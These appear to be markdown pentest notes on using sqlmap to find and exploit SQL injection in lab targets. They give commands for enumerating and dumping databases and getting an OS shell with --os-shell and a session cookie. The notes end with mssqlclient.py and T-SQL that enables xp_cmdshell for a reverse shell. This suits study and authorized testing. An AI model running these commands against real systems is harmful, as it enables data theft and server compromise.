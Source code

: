 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful webs]].

### EXAMPLE 1

We can use *sqlmap* specifying the target url:
- *Parameters*:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is http://192.168.1.102/administrator
	    
| Option                    | Description                                                                                                                       |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| `-u`                       | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://192.168.1.102/administrator`.          |
| `--batch`                  | Runs sqlmap in batch mode, performing operations automatically without prompting for user input.                                  |
| `--dbs`                    | Instructs sqlmap to enumerate the available databases on the database server.                                                     |
| `--tables`                 | Instructs sqlmap to enumerate the available tables in the selected database.                                                      |
| `--level (1-5, default 1)` | Defines the scope of vectors and boundaries used for injection. Higher levels involve more obscure techniques with lower success. **Levels:** 1 (default): Basic tests, minimal impact. 2: Extends tests to more techniques, might cause some disruption. 3: More advanced techniques, higher chance of impacting the target. 4-5: Highly specific and risky techniques, use with caution. |
| `--risk (1-3, default 1)`  | Controls the types of exploit vectors based on their potential risk. **Levels:** 1 (default): Low-risk techniques, unlikely to cause harm. 2: Includes techniques with moderate risk of data loss or denial-of-service. 3: Attempts all techniques, including disruptive or data-altering ones (use responsibly). |


```bash
sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
```

After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:

```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
```

Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
```

Finally, you can print the columns information using:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch	
```

### EXAMPLE 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

| Option               | Description                                                                                                            |
| -------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| `-r pc`              | Specifies the file that contains the saved HTTP request, named "pc" in this case. It will be used as input for sqlmap. |
| `-p id`              | Indicates the name of the URL or body parameter in the HTTP request to be tested for SQL injection. Example: `id`.     |
| `--dbs`              | Instructs sqlmap to enumerate the available databases on the database server.                                          |
| `--tables`           | Instructs sqlmap to enumerate the available tables in the selected database.                                           |
| `-D SQLite_masterdb` | Specifies the name of the database where operations will be performed. Example: `SQLite_masterdb`.                     |
| `-T accounts`        | Specifies the name of the table on which operations will be performed. Example: `accounts`.                            |
| `--columns`          | Instructs sqlmap to enumerate the available columns in the specified table.                                            |
| `--batch`            | Runs sqlmap in batch mode, performing the operations automatically without prompting for user input.                   |
| `--threads 5`        | Specifies the number of threads sqlmap will use simultaneously. Example: 5 threads.                                    |
| `--dump`             | Extracts the data from the specified table and displays it as output.                                                  |

- Find databases:
```bash
sqlmap -r pc -p id  --dbs	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables  
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>"
```

### Exemple 3
| Option            | Description                                                                                                      |
|-------------------|------------------------------------------------------------------------------------------------------------------|
| `-u`               | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://10.129.95.174/dashboard.php?search=any+query` |
| `--cookie`        | Sets the cookie value for the HTTP request. Cookies maintain session information. Example: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1` |
| `--os-shell`      | Attempts to obtain an operating system shell on the vulnerable server if SQL injection is successful. This provides direct interaction with the operating system. |

```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
# mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````

